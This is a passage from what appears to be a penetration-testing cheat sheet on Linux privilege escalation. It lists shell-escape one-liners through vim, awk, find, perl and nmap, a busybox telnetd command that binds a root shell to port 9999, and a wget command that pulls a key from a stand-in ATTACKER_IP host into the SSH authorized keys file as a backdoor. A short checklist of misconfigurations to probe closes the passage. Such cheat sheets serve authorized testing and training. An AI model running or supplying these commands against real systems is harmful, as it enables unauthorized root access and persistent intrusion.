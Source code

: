 ### From busybox

```text
/bin/busybox telnetd -|/bin/sh -p9999
```

```text
:!bash
:set shell=/bin/bash:shell
!bash
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
awk 'BEGIN {system("/bin/bash")}'
--interactive
echo "os.execute('/bin/sh')"
sudo nmap --script=exploit.nse
perl -e 'exec "/bin/bash";'
```

### Add public key to authorized keys:

```text
echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authotized_keys
```

## MindMap

![MindMap for PE](../../.gitbook/assets/image%20%281%29.png)

## Linux elevation of privileges, manual testing

### Things to look for

* Miss-configured services \(cronjobs\)
  * any running as a privileged user?
* Incorrect file permissions \(exportfs, sudo\)
* Miss-configured environment \($PATH\)
* Binary with SUID bit
* Software or OS with known vulnerabilities
